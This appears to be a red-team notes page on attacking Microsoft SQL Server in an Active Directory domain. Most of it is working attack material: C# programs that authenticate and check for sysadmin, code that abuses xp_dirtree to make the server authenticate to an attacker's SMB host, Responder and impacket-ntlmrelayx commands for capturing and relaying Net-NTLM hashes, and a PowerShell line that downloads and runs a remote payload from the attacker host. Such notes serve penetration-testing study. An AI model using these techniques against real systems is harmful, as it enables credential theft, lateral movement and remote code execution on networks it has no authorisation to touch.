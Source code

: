 ```yaml
---
title: Attacking MS SQL
tags:
  - breach
  - operations
  - sql
  - mssql
  - responder
  - impacket
  - relay
  - hash
  - hashing
  - smb
  - powershell
  - base64
---
```


## Enumeration

**Microsoft SQL (MS SQL)** servers usually listen on port 1433 and we could
easily find them with an **nmap** scan, however, if we've compromised an
unprivileged user in an Active Directory domain, we can more conduct a more
stealthy scan by querying the Domain Controller for **Service Principal Names
(SPNs)**. We can do this by invoking the following **setspn** command:

```powershell
setspn -T ${DOMAIN} -Q MSSQLSvc/*
```

## Authentication

There are two methods to authenticate to an MS SQL server:

- Using local accounts and credentials for the server
- Conducting Windows authentication via Kerberos and a **Ticket Granting Service
  (TGS)** ticket

After successfully logging in, we can perform a secondary login with either the
**sa (sysadmin)** account or the **dbo** user account. If our Windows account
isn't mapped to any accounts in the server, we're automatically assigned the
**guest** user account. Regardless, we won't be prompted for a password since
we're authenticating via Active Directory.

The following C# .NET code will authenticate to a MS SQL server, authenticating
via Active Directory, to query the current user's user information. This is
enabled by providing the `Integrated Security = True;` parameter in the
connection string for the server.

```csharp
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main()
        {
            string sqlServer = "dc01.corp1.com";
            string database = "master";
            string conString = "Server = " + sqlServer +
                               "; Database = " + database +
                               "; Integrated Security = True;";

            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            string querylogin = "SELECT SYSTEM_USER;";
            SqlCommand command = new SqlCommand(querylogin, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Read();
            Console.WriteLine("Logged in as: " + reader[0]);
            reader.Close();

            string rolequery = "SELECT IS_SRVROLEMEMBER('public');";
            command = new SqlCommand(rolequery, con);
            reader = command.ExecuteReader();
            reader.Read();
            int role = int.Parse(reader[0].ToString());
            if (role == 1)
            {
                Console.WriteLine("User is a member of public role");
            }
            else
            {
                Console.WriteLine("User is NOT a member of public role");
            }
            reader.Close();

            rolequery = "SELECT IS_SRVROLEMEMBER('sysadmin');";
            command = new SqlCommand(rolequery, con);
            reader = command.ExecuteReader();
            reader.Read();
            role = int.Parse(reader[0].ToString());
            if (role == 1)
            {
                Console.WriteLine("User is a member of sysadmin role");
            }
            else
            {
                Console.WriteLine("User is NOT a member of sysadmin role");
            }
            reader.Close();

            con.Close();
        }
    }
}
```

## Stealing hashes

We can coerce MS SQL servers to authenticate to our SMB server, enabling us to
retrieve the **NTLMv2** or **Net-NTLM** hash for the user account hosting the MS
SQL server. We can do this by providing a **Universal Naming Convention (UNC)**
path for the **xp_dirtree** MS SQL procedure. This will cause the MS SQL server
to attempt to read from our SMB server, but first it'll attempt authentication.

We can use a tool like [Responder](https://github.com/SpiderLabs/Responder) to
respond to this request and dump the NLTMv2 or Net-NTLM hash to `stdout`. Here's
some example C# .NET code to implement this tactic:

```csharp
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            string lHost = args[0];
            string sqlServer = "dc01.corp1.com";
            string database = "master";
            string conString = "Server = " + sqlServer +
                               "; Database = " + database +
                               "; Integrated Security = True;";

            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            string query = $"EXEC master..xp_dirtree \"\\\\{lHost}\\\\test\";";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();

            con.Close();
        }
    }
}
```

And we can listen and respond to incoming authentication requests by invoking
**responder** like so:

```bash
sudo responder -I ${INTERFACE_NAME}
```

### Relaying hashes

While we can use **NTLM** hashes to pass the hash to obtain code execution on
hosts where the domain user we've compromised is a local administrator, we can't
do the same for **NTLMv2** or **Net-NTLM** hashes. We can, however, relay the
hash to a different computer that the compromised user is a local administrator
on. For clarity, we can't relay the hash back to the same computer - this was
disabled by Microsoft in 2008.

Relaying **Net-NTLM** hashes against SMB is only possible if SMB signing is not
enabled, which is only enabled by default on Domain Controllers. To prepare for
the attack, we can invoke **impacket-ntlmrelayx** to relay incoming
authentication requests to a target, providing a **PowerShell** command to
execute on the target as a Local Administrator, the compromised user. Here's an
example invocation:

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${RHOST} -c "powershell -EncodedCommand ${BASE64_COMMAND}"
```

We can Base64 encode a **PowerShell** command by invoking the following:

```powershell
$lHost = ${LHOST}
$command = "(Invoke-RestMethod -Uri 'http://${lHost}/PayloadAmsi.ps1' -UseBasicParsing) | Invoke-Expression"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedText = [Convert]::ToBase64String($bytes)
```
